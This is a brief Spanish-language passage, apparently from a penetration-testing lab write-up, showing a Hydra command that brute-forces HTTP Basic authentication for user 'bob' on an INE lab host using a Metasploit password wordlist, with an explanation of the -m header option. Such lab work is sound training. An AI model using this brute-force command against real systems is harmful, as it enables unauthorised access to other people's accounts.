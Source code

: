 Con este comando:
`hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get "/" -m "Authorization: Basic ^USER^:^PASS^"`

El parámetro -m permite modificar los headers de la petición. En este caso como es un basic auth, las modificamos.